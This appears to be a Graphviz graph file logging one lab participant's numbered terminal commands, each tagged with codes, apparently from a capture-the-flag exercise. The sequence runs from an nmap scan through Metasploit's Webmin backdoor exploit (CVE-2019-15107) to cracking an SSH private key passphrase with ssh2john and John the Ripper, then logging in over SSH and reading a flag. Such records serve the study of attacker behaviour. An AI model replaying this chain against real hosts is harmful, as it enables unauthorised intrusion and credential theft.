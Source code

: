 // creating graph for user: 73
digraph {
	node [shape=box]
	0 [label="nmap -A 172.18.1.5 M0 "]
	1 [label="msf U"]
	2 [label="metasploit U"]
	3 [label="msfconsole M2 "]
	4 [label="search webmin 1.920 M3 "]
	5 [label="search cve:2019-15107 A3 "]
	6 [label="use exploit/unix/webapp/webmin_backdoor M8 "]
	7 [label="show options M5 "]
	8 [label="set TARGETURI=172.18.1.5:10000 A6 "]
	9 [label="set TARGETURI 172.18.1.5:10000 A6 "]
	10 [label="run V8 "]
	11 [label="show options V5 "]
	12 [label="set TARGETURI / A6 "]
	13 [label="set RHOST 172.18.1.5 A6 "]
	14 [label="run V8 "]
	15 [label="set LHOST 0.0.0.0 M6 "]
	16 [label="run V8 "]
	17 [label="show options V5 "]
	18 [label="search edb:47230 A3 "]
	19 [label="search webmin V3 "]
	20 [label="banner U"]
	21 [label="info U"]
	22 [label="connect U"]
	23 [label="run V8 "]
	24 [label="show options V5 "]
	25 [label="set LHOST 10.1.135.83 V6 "]
	26 [label="run V8 "]
	27 [label="ls A10 "]
	28 [label="pwd U"]
	29 [label="ls A10 "]
	30 [label="ls A10 "]
	31 [label="cat ssh2john.py A1 A9 A11 A12 A14 A16 A17 "]
	32 [label="python ssh2john.py M13 "]
	33 [label="connect U"]
	34 [label="touch r.txt U"]
	35 [label="cp /tmp.r.txt rsa_d U"]
	36 [label="ls A10 "]
	37 [label="python ssh2john.py rsa_d V13 "]
	38 [label="python ssh2john.py rsa_d > john_rsa V13 "]
	39 [label="john john_rsa A14 "]
	40 [label="john rsa_d A14 "]
	41 [label="john john_rsa A14 "]
	42 [label="python ssh2john.py /tmp.k > rsa2 V13 "]
	43 [label="cat rsa_d A1 A9 A11 A12 A17 "]
	44 [label="john ---h A14 "]
	45 [label="john -h A14 "]
	46 [label="ls A10 "]
	47 [label="ls Documents/m A10 "]
	48 [label="ls Documents/ A10 "]
	49 [label="ls Documents/ -laR A10 "]
	50 [label="ls A10 "]
	51 [label="john john_rsa --wordlist /usr/share/wordlists/rockyou.txt M14 "]
	52 [label="john --show A5 A14 "]
	53 [label="ls A10 "]
	54 [label="john rsa_d --show A5 A14 "]
	55 [label="ls A10 "]
	56 [label="ls fasttrack.txt A10 "]
	57 [label="ls -l A10 "]
	58 [label="john john_rsa --wordlist /usr/share/wordlists/rockyou.txt.gz V14 "]
	59 [label="john john_rsa --wordlist /usr/share/wordlists/rockyou.txt V14 "]
	60 [label="tar -xvf rockyou.txt.gz U"]
	61 [label="head rockyou.txt A9 A11 A12 A17 "]
	62 [label="john rsa2 --wordlist /usr/share/wordlists/rockyou.txt V14 "]
	63 [label="ls A10 "]
	64 [label="john john_rsa A14 "]
	65 [label="john john_rsa --wordlist /usr/share/wordlists/rockyou.txt V14 "]
	66 [label="john john_rsa --wordlist /usr/share/wordlists/rockyou.txt V14 "]
	67 [label="john A14 "]
	68 [label="john john_rsa --wordlist /usr/share/wordlists/rockyou.txt --show V14 "]
	69 [label="john john_rsa --wordlist /usr/share/wordlists/rockyou.txt --show=left V14 "]
	70 [label="john john_rsa --wordlist /usr/share/wordlists/rockyou.txt --show=right V14 "]
	71 [label="john john_rsa --show --wordlist /usr/share/wordlists/rockyou.txt V14 "]
	72 [label="john --wordlist /usr/share/wordlists/rockyou.txt john_rsa V14 "]
	73 [label="john --wordlist /usr/share/wordlists/rockyou.txt john_rsa --show V14 "]
	74 [label="john --wordlist /usr/share/wordlists/rockyou.txt john_rsa V14 "]
	75 [label="less rockyou.txt A9 A11 A12 A17 "]
	76 [label="john --wordlist /usr/share/wordlists/rockyou.txt john_rsa --format=SSH V14 "]
	77 [label="ls A10 "]
	78 [label="john --wordlist /usr/share/wordlists/rockyou.txt rsa_d --format=SSH V14 "]
	79 [label="john --wordlist /usr/share/wordlists/rockyou.txt rsa2 --format=SSH V14 "]
	80 [label="john --wordlist /usr/share/wordlists/rockyou.txt rsa_d --format=SSH V14 "]
	81 [label="john --wordlist /usr/share/wordlists/rockyou.txt john_rsa --format=SSH V14 "]
	82 [label="john --show A5 A14 "]
	83 [label="john --show john_rsa A5 A14 "]
	84 [label="python ssh2john.py r.txt > rsa3 V13 "]
	85 [label="john --wordlist /usr/share/wordlists/rockyou.txt john_rsa --format=SSH --verbose V14 "]
	86 [label="john A14 "]
	87 [label="john --wordlist /usr/share/wordlists/rockyou.txt john_rsa --format=SSH --verbose V14 "]
	88 [label="john --wordlist /usr/share/wordlists/rockyou.txt john_rsa --format=SS V14 "]
	89 [label="john --wordlist /usr/share/wordlists/rockyou.txt john_rsa --format=SSH V14 "]
	90 [label="john --wordlist /usr/share/wordlists/rockyou.txt john_rsa --format=SSH V14 "]
	91 [label="less rockyou.txt A9 A11 A12 A17 "]
	92 [label="john --wordlist /usr/share/wordlists/rockyou.txt john_rsa V14 "]
	93 [label="show rsa_ A5 "]
	94 [label="show rsa_d A5 "]
	95 [label="john --show rsa_d A5 A14 "]
	96 [label="python ssh2john.py /tmp/id_rsa hash V13 "]
	97 [label="python ssh2john.py /tmp/id_rsa > hash V13 "]
	98 [label="john --wordlist /usr/share/wordlists/rockyou.txt hash V14 "]
	99 [label="john --wordlist /usr/share/wordlists/rockyou.txt hash --rules V14 "]
	100 [label="john --show hash A5 A14 "]
	101 [label="john --wordlist /usr/share/wordlists/rockyou.txt hash --rules V14 "]
	102 [label="john --wordlist=all.lst hash V14 "]
	103 [label="sudo john A14 "]
	104 [label="john --show hash --format=SSH A5 A14 "]
	105 [label="john --wordlist /usr/share/wordlists/rockyou.txt hash --rules V14 "]
	106 [label="john --show hash --format=SSH A5 A14 "]
	107 [label="john --wordlist /usr/share/wordlists/rockyou.txt hash V14 "]
	108 [label="john --show hash --format=SSH A5 A14 "]
	109 [label="john --wordlist /usr/share/wordlists/rockyou.txt hash V14 "]
	110 [label="ls A10 "]
	111 [label="echo '!hellokitty!!' > wl.txt U"]
	112 [label="john --wordlist wl.txt hash V14 "]
	113 [label="ls A10 "]
	114 [label="john --show hash A5 A14 "]
	115 [label="echo -n '!hellokitty!!' > wl.txt U"]
	116 [label="john --wordlist wl.txt hash V14 "]
	117 [label="john --show hash A5 A14 "]
	118 [label="john --show --format=SSH                             hash A5 A14 "]
	119 [label="cat /tmp/id_rsa M12 "]
	120 [label="python ssh2john.py /tmp/id_rsa V13 "]
	121 [label="ssh-add /tmp/id_rsa A16 "]
	122 [label="ssh-add id_rsa A16 "]
	123 [label="la U"]
	124 [label="ls -la A10 "]
	125 [label="python ssh2john.py id_rsa > hash V13 "]
	126 [label="john --wordlist /usr/share/wordlists/rockyou.txt V14 "]
	127 [label="john --show id_rsa A5 A14 "]
	128 [label="john --show hash A5 A14 "]
	129 [label="john --wordlist /usr/share/wordlists/rockyou.txt hash V14 "]
	130 [label="john --show hash A5 A14 "]
	131 [label="john --wordlist /usr/share/wordlists/rockyou.txt --fork 4 hash V14 "]
	132 [label="john --wordlist /usr/share/wordlists/rockyou.txt --fork=4 hash V14 "]
	133 [label="john --wordlist=/usr/share/wordlists/rockyou.txt --fork=4 hash V14 "]
	134 [label="ssh-add id_rsa A16 "]
	135 [label="ssh eve@10.1.17.4 M16 "]
	136 [label="cp id_rsa .ssh/id_rsa A16 "]
	137 [label="ssh eve@10.1.17.4 V16 "]
	138 [label="ls A10 "]
	139 [label="ls -a A10 "]
	140 [label="chown 0044 U"]
	141 [label="chown 0044 id_rsa U"]
	142 [label="ssh-add id_rsa A16 "]
	143 [label="ssh eve@10.1.17.4 V16 "]
	144 [label="ls A10 "]
	145 [label="cd top-secret/ U"]
	146 [label="ls A10 "]
	147 [label="cat flag A1 A9 A11 A12 A17 "]
	148 [label="cat flag.txt M17 "]
	0 -> 1 [constraint=false]
	1 -> 2 [constraint=false]
	2 -> 3 [constraint=false]
	3 -> 4 [constraint=false]
	4 -> 5 [constraint=false]
	5 -> 6 [constraint=false]
	6 -> 7 [constraint=false]
	7 -> 8 [constraint=false]
	8 -> 9 [constraint=false]
	9 -> 10 [constraint=false]
	10 -> 11 [constraint=false]
	11 -> 12 [constraint=false]
	12 -> 13 [constraint=false]
	13 -> 14 [constraint=false]
	14 -> 15 [constraint=false]
	15 -> 16 [constraint=false]
	16 -> 17 [constraint=false]
	17 -> 18 [constraint=false]
	18 -> 19 [constraint=false]
	19 -> 20 [constraint=false]
	20 -> 21 [constraint=false]
	21 -> 22 [constraint=false]
	22 -> 23 [constraint=false]
	23 -> 24 [constraint=false]
	24 -> 25 [constraint=false]
	25 -> 26 [constraint=false]
	26 -> 27 [constraint=false]
	27 -> 28 [constraint=false]
	28 -> 29 [constraint=false]
	29 -> 30 [constraint=false]
	30 -> 31 [constraint=false]
	31 -> 32 [constraint=false]
	32 -> 33 [constraint=false]
	33 -> 34 [constraint=false]
	34 -> 35 [constraint=false]
	35 -> 36 [constraint=false]
	36 -> 37 [constraint=false]
	37 -> 38 [constraint=false]
	38 -> 39 [constraint=false]
	39 -> 40 [constraint=false]
	40 -> 41 [constraint=false]
	41 -> 42 [constraint=false]
	42 -> 43 [constraint=false]
	43 -> 44 [constraint=false]
	44 -> 45 [constraint=false]
	45 -> 46 [constraint=false]
	46 -> 47 [constraint=false]
	47 -> 48 [constraint=false]
	48 -> 49 [constraint=false]
	49 -> 50 [constraint=false]
	50 -> 51 [constraint=false]
	51 -> 52 [constraint=false]
	52 -> 53 [constraint=false]
	53 -> 54 [constraint=false]
	54 -> 55 [constraint=false]
	55 -> 56 [constraint=false]
	56 -> 57 [constraint=false]
	57 -> 58 [constraint=false]
	58 -> 59 [constraint=false]
	59 -> 60 [constraint=false]
	60 -> 61 [constraint=false]
	61 -> 62 [constraint=false]
	62 -> 63 [constraint=false]
	63 -> 64 [constraint=false]
	64 -> 65 [constraint=false]
	65 -> 66 [constraint=false]
	66 -> 67 [constraint=false]
	67 -> 68 [constraint=false]
	68 -> 69 [constraint=false]
	69 -> 70 [constraint=false]
	70 -> 71 [constraint=false]
	71 -> 72 [constraint=false]
	72 -> 73 [constraint=false]
	73 -> 74 [constraint=false]
	74 -> 75 [constraint=false]
	75 -> 76 [constraint=false]
	76 -> 77 [constraint=false]
	77 -> 78 [constraint=false]
	78 -> 79 [constraint=false]
	79 -> 80 [constraint=false]
	80 -> 81 [constraint=false]
	81 -> 82 [constraint=false]
	82 -> 83 [constraint=false]
	83 -> 84 [constraint=false]
	84 -> 85 [constraint=false]
	85 -> 86 [constraint=false]
	86 -> 87 [constraint=false]
	87 -> 88 [constraint=false]
	88 -> 89 [constraint=false]
	89 -> 90 [constraint=false]
	90 -> 91 [constraint=false]
	91 -> 92 [constraint=false]
	92 -> 93 [constraint=false]
	93 -> 94 [constraint=false]
	94 -> 95 [constraint=false]
	95 -> 96 [constraint=false]
	96 -> 97 [constraint=false]
	97 -> 98 [constraint=false]
	98 -> 99 [constraint=false]
	99 -> 100 [constraint=false]
	100 -> 101 [constraint=false]
	101 -> 102 [constraint=false]
	102 -> 103 [constraint=false]
	103 -> 104 [constraint=false]
	104 -> 105 [constraint=false]
	105 -> 106 [constraint=false]
	106 -> 107 [constraint=false]
	107 -> 108 [constraint=false]
	108 -> 109 [constraint=false]
	109 -> 110 [constraint=false]
	110 -> 111 [constraint=false]
	111 -> 112 [constraint=false]
	112 -> 113 [constraint=false]
	113 -> 114 [constraint=false]
	114 -> 115 [constraint=false]
	115 -> 116 [constraint=false]
	116 -> 117 [constraint=false]
	117 -> 118 [constraint=false]
	118 -> 119 [constraint=false]
	119 -> 120 [constraint=false]
	120 -> 121 [constraint=false]
	121 -> 122 [constraint=false]
	122 -> 123 [constraint=false]
	123 -> 124 [constraint=false]
	124 -> 125 [constraint=false]
	125 -> 126 [constraint=false]
	126 -> 127 [constraint=false]
	127 -> 128 [constraint=false]
	128 -> 129 [constraint=false]
	129 -> 130 [constraint=false]
	130 -> 131 [constraint=false]
	131 -> 132 [constraint=false]
	132 -> 133 [constraint=false]
	133 -> 134 [constraint=false]
	134 -> 135 [constraint=false]
	135 -> 136 [constraint=false]
	136 -> 137 [constraint=false]
	137 -> 138 [constraint=false]
	138 -> 139 [constraint=false]
	139 -> 140 [constraint=false]
	140 -> 141 [constraint=false]
	141 -> 142 [constraint=false]
	142 -> 143 [constraint=false]
	143 -> 144 [constraint=false]
	144 -> 145 [constraint=false]
	145 -> 146 [constraint=false]
	146 -> 147 [constraint=false]
	147 -> 148 [constraint=false]
	rankdir=LR
}
